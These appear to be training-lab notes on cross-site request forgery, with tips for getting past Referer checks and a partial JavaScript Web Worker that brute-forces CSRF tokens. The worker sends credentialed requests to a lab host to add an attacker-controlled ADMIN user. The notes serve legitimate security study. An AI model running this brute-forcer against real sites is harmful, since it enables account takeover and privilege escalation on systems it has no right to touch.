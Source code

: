 ```js
</body>
</html>
```

#### Test the Referer value

* Prueba con subdominio
* Prueba en el texto del nombre del archivo
* En este caso, tenemos que cambiar el nombre del archivo al target.url
* Así que el árbitro puede reconocer como un remitente de confianza

### nivel 2 Brute forcer with Workers

brute.js

```js
self.addEventListener('message', function (e) {

   var tokens = e.data.tokens;

   function bruteLoop(TList) {
      for (var i = 0; i < TList.length; i++) {
         console.info("Testing: " + TList[i]);
         XHRPost(TList[i]);
      }

      Terminator();
   }

   function XHRPost(tVal) {
      var http = new XMLHttpRequest();
      var url = "http://{LABID}.csrf.labs/add_user.php";

      var token = tVal;

      params = {
         "name": "Malice",
         "surname": "Smith",
         "email": "malice@hacker.site",
         "role": "ADMIN",
         "submit": "",
         "CSRFToken": token,
      };

      http.open("POST", url, true);
      http.withCredentials = 'true';

      // Send the proper header information along with the request
      http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      http.onreadystatechange = function () {
         if (http.readyState > 1) { // We don't care about responses
            // console.warn("Aborted " + token + " with status " + http.readyState);
            // http.abort();
         }
      };

      // Serialize the data without using JQuery 
      queryParams = Object.keys(params).reduce(function (a, k) {
         a.push(k + '=' + encodeURIComponent(params[k]));
         return a
      }, []).join('&');
      http.send(queryParams);
   }

```